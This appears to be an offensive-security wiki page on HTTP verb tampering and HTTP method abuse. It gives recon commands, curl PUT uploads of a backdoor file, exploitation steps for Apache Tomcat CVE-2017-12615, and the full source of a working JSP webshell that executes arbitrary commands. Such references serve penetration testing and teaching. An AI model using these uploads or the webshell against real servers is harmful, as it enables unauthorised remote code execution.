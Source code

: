 ```yaml
---
authors: KenjiEndo15, ShutdownRepo, fransosiche, p0dalirius
---
```


# HTTP methods

## Theory

### Verb tampering

Some websites filter access to resources but fail at filtering out all HTTP methods. When an attacker tries to access a resource with different methods (GET, POST, HEAD, etc.) to bypass the access control, this is called HTTP verb tampering.

### Methods abuse

Some HTTP methods can be used for malicious purposes: `PUT`, `DELETE`, etc. The HTTP methods abuse is not aimed at gaining access to a specific page like verb tampering but more like what methods are accepted by the server and how can an attacker profit from those.

## Practice

### Recon

Testing for HTTP verb tampering and method abuse can be done with [httpmethods](https://github.com/ShutdownRepo/httpmethods).

```bash
httpmethods -u "https://target.url/"
httpmethods -u "https://target.url/restricted_page"
```

A manual HTTP request with the `OPTIONS` method can also be used to enumerate what methods are supported. This works if the `OPTIONS` methods is allowed in the first place.

```bash
curl --include --request OPTIONS "https://target.url/"
```

### Abusing the `PUT` method

The `PUT` method can be used to upload arbitrary files. Some directories have different rights, it can be useful to test the method on a wide range of directories.

```bash
curl --include --upload-file "backdoor.php" "https://target.url/"
```

### Apache Tomcat JSP PUT - CVE-2017-12615

Abusing the `PUT` method also applies to CVE-2017-12615: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialization parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

Exploitation of this vulnerability can be achieved manually by creating a `.jsp` file and by uploading it to the target server.


```java
<% out.write("<html><body><h3>JSP upload successfully</h3></body></html>"); %>
```


```bash
curl --include --upload-file "test.jsp" "https://target.url/"
```

If the upload is successful, the following JSP webshell ([source](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp)) can then be uploaded to attempt at execute arbitrary commands on the remote server.


```java
<%@ page import="java.util.*,java.io.*"%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

